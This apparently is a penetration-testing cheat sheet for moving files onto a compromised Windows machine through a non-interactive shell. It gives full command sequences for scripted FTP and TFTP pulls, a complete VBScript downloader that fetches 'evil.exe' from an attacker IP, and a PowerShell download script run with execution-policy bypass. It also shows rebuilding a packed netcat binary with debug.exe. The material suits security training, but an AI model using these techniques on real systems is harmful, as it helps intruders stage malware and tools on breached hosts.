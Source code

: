 # Transferring Files to Windows

Transferring files to Linux is usually pretty easy. We can use `netcat`, `wget`, or `curl`, which most systems have as default. But windows does not have these tools.

## FTP

Most windows machines have a ftp-client included. But we can't use it interactively since that most likely would kill our shell. So we have get around that. We can however run commands from a file. So what we want to do is to echo out the commands into a textfile. And then use that as our input to the ftp-client. Let me demonstrate.

On the compromised machine we echo out the following commands into a file

```
echo open 192.168.1.101 21> ftp.txt
echo USER asshat>> ftp.txt
echo mysecretpassword>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

Then run this command to connect to the ftp

```
ftp -v -n -s:ftp.txt
```

Of course you need to have a ftp-server configured with the user asshat and the password to mysecretpassword.

## TFTP

Works by default on:  

**Windows XP**  

**Windows 2003**

A TFTP client is installed by default on windows machines up to Windows XP and Windows 2003. What is good about TFTP is that you can use it non-interactively. Which means less risk of losing your shell.

Kali has a TFTP server build in.  
You can server up some files with it like this

```
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```

Now you can put stuff in `/srv/tftp` and it will be served. Remember that TFTP used UDP. So if you run `netstat` it will not show it as listening.

You can see it running like this

```
netstat -a -p UDP | grep udp
```

So now you can upload and download whatever from the windows-machine like this

```
tftp -i 192.160.1.101 GET wget.exe
```

If you like to test that the tftp-server is working you can test it from Linux, I don't think it has a non-interactive way.

```
tftp 192.160.1.101
GET test.txt
```

I usually put all files I want to make available in `/srv/tftp`

If you want to make sure that the file was uploaded correct you can check in the syslog. Grep for the IP like this:

`grep 192.168.1.101 /var/log/syslog`

## VBScript

Here is a good script to make a wget-clone in VB.

If it doesn't work try piping it through unix2dos before copying it.

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

You then execute the script like this:
```
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
```

## PowerShell

This is how we can download a file using PowerShell. Remember since we only have a non-interactive shell we cannot start PowerShell.exe, because our shell can't handle that. But we can get around that by creaing a PowerShell-script and then executing the script:

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Now we invoke it with this crazy syntax:

```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## Debug.exe

This is a crazy technique that works on windows 32 bit machines. Basically the idea is to use the `debug.exe` program. It is used to inspect binaries, like a debugger. But it can also rebuild them from hex. So the idea is that we take a binaries, like `netcat`. And then disassemble it into hex, paste it into a file on the compromised machine, and then assemble it with `debug.exe`.

`Debug.exe` can only assemble 64 kb. So we need to use files smaller than that. We can use upx to compress it even more. So let's do that:

```
upx -9 nc.exe
```

Now it only weights 29 kb. Perfect. So now let's disassemble it:

```
wine exe2bat.exe nc.exe nc.txt
```

Now we just copy-past the text into our windows-shell. And it will automatically create a file called nc.exe


A very good resource on the same : [https://blog.ropnop.com/transferring-files-from-kali-to-windows/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)
